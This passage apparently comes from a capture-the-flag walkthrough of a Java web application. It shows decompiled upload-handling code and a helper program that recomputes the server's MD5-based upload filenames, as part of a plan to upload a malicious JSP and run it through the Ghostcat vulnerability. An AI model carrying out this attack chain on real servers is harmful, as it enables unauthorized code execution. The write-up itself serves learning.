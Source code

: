```java
        {
            String s = as[j];
            if(s.trim().startsWith("filename"))
                return s.substring(s.indexOf("=") + 2, s.length() - 1);
        }

        return "";
    }

    private static final String SAVE_DIR = "uploads";
}
```

We see that uploaded files are being placed into `/uploads/` but with a filename generated by the `generateFileName` function. If we can upload a malicious jsp file, guess the filename, and exploit the Ghostcat vulnerability to eval it, we should be able to achieve code execution.

Instead of trying to reverse engineer what the `generateFileName` function is doing, we can just copy the code and run it to generate the filename for us:

`FileName.java`:

```java
import java.io.PrintStream;
import java.math.BigInteger;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;

public class FileName {
    static String generateFileName(String s) {
        try {
            String s1;
            StringBuilder stringbuilder;
            MessageDigest messagedigest = MessageDigest.getInstance("MD5");
            messagedigest.update(s.getBytes());
            byte abyte0[] = messagedigest.digest();
            s1 = (new BigInteger(1, abyte0)).toString(16);
            stringbuilder = new StringBuilder(32);
            int i = 0;
            for(int j = 32 - s1.length(); i < j; i++)
                stringbuilder.append("0");

            return stringbuilder.append(s1).toString();
        } catch(NoSuchAlgorithmException e) {
            return "Bad";
        }
    }

    public static void main(String args[]) {
        String s = args[0];
        System.out.println(generateFileName(s));
    }
}
```
